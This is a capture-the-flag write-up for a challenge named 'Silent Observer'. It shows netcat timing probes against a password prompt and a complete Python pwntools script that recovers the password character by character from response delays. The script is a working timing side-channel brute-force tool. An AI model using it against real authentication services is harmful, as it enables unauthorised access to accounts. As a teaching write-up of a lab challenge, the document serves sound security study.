

# Writeup for **Silent Observer**

### **Challenge Description**
> The system seems secure, but if you look closely, it's telling you everything.
---

## **Step 1: Initial Interaction**
The challenge is accessible via **Netcat**, upon connecting, we see:

```bash
[?] Enter password: 
```
and after some input, the input gets `sha256` hashed we get `[-] Wrong! Try again.`:



## **Step 2: Analysis**
Since there are no direct hints, we check for timing differences.\
Using `time` in Bash, we test different inputs:

```bash
(time echo "a" | nc <server> <port>) 2>&1 | grep real
(time echo "b" | nc <server> <port>) 2>&1 | grep real
...
```
Output:\
`real    0m0.054s`\
`real    0m0.056s`


but for `t`
```bash
(time echo "t" | nc <server> <port>) 2>&1 | grep real
```
Output:\
`real    0m0.172s`

we see a significant increase in time (approx 0.1 seconds overhead) which means the system is vulnerable to a timing attack.


## **Step 3 Automating the Attack**
To extract the password:
- Test each character (A-Z, a-z, 0-9, symbols).
- Record response time for each guess.
- Choose the character that causes the longest delay.
- Repeat the process until we recover the full password.

## **Solve Script**
```python
from pwn import *
import string
import time

HOST = "<server>"
PORT = <port>

CHARSET = string.ascii_letters + string.digits + string.punctuation
password = ""

while True:
    best_char = None
    best_time = 0

    for char in CHARSET:
        test_password = password + char

        start_time = time.time()

        conn = remote(HOST, PORT)  # Connect to the challenge
        conn.sendline(test_password.encode())  # Send the test password
        conn.recvline()  # Read hash output (not relevant)
        conn.recvline()  # Read correctness message
        conn.close()

        elapsed_time = time.time() - start_time

        if elapsed_time > best_time:
            best_time = elapsed_time
            best_char = char

    if best_char:
        password += best_char
        print(f"[+] Found character: {best_char} | Current password: {password}")
    else:
        break  # Stop if no progress

print(f"[+] Recovered password: {password}")

```

and slowly character by character the flag will be exposed!!!